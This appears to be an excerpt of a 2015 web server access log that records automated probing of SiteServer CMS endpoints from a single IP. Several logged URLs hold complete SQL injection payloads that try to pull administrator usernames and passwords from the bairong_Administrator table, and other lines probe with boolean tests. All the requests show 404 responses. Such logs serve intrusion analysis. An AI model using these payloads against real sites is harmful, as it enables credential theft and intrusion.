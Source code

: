       183.60.243.234 [05/Mar/2015:18:00:35 +0800] /siteserver/cms/modal_contentTagAdd.aspx?PublishmentSystemID=-1&TagName=-1%27+and+1%3D%28select+top+1+char%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28110%29%2Bchar%2895%29%2Bchar%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28115%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28118%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%2895%29%2Bchar%2851%29%2Bchar%2849%29%2Bchar%2855%29%2Bchar%2856%29%2Bchar%2850%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BUsername%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BPassword%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28104%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28101%29+from+%5Bbairong_Administrator%5D%29--+ 404 0.012 0.012 4477 
      183.60.243.234 [05/Mar/2015:18:00:35 +0800] /Plus/Promotion.asp 404 0.010 0.010 4477 
      183.60.243.234 [05/Mar/2015:18:00:34 +0800] /siteserver/userRole/background_user.aspx?AreaID=0&PageNum=0&Keyword=txexsxt%27+and+1%3D%28select+top+1+char%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28110%29%2Bchar%2895%29%2Bchar%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28115%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28118%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%2895%29%2Bchar%2851%29%2Bchar%2849%29%2Bchar%2855%29%2Bchar%2856%29%2Bchar%2850%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BUsername%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BPassword%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28104%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28101%29+from+%5Bbairong_Administrator%5D%29%29%29+AS+t0--+&CreateDate=0&LastActivityDate=0&DepartmentID=0&TypeIP=0 404 0.013 0.013 4477 
      183.60.243.234 [05/Mar/2015:18:00:33 +0800] /siteserver/bbs/background_thread.aspx?UserName=0&DateTo=&ForumID=0&DateFrom=&Title=test%27+and+1%3D%28select+top+1+char%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28110%29%2Bchar%2895%29%2Bchar%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28115%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28118%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%2895%29%2Bchar%2851%29%2Bchar%2849%29%2Bchar%2855%29%2Bchar%2856%29%2Bchar%2850%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BUsername%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BPassword%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28104%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28101%29+from+%5Bbairong_Administrator%5D%29+and+%271%25%27%3D%271 404 0.007 0.007 4477 
      183.60.243.234 [05/Mar/2015:18:00:33 +0800] /MockLogin.aspx 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:33 +0800] /Plugins/Doc.aspx?id=1/**/and/**/1=2 404 0.301 0.301 4477 
      183.60.243.234 [05/Mar/2015:18:00:34 +0800] /siteserver/bbs/background_keywordsFilting.aspx?grade=0&categoryid=0&keyword=test%27+and+1%3D%28select+top+1+char%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28110%29%2Bchar%2895%29%2Bchar%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28115%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28118%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%2895%29%2Bchar%2851%29%2Bchar%2849%29%2Bchar%2855%29%2Bchar%2856%29%2Bchar%2850%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BUsername%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BPassword%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28104%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28101%29+from+%5Bbairong_Administrator%5D%29+and+%27%25%27%3D%27 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:33 +0800] /siteserver/cms/background_fileTree.aspx?PublishmentSystemID=0&RootPath=&CurrentRootPath=include 404 0.008 0.008 4477 